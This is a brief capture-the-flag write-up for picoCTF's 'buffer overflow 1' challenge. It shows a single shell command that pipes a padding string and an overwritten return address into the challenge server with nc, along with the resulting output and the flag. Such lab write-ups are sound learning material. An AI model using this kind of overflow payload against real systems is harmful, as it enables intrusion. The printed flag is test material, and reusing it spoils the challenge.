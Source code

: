# buffer overflow 1
#### Description
Control the return address


## Hints
### NONE


## Solucion


```bash
┌──(masterfer㉿PcMaster)-[~/Downloads/PicoCTF/BinaryExploita22/bufferover1]
└─$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | nc saturn.picoctf.net 52715 

Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_2e53b270}    

```


## Referencias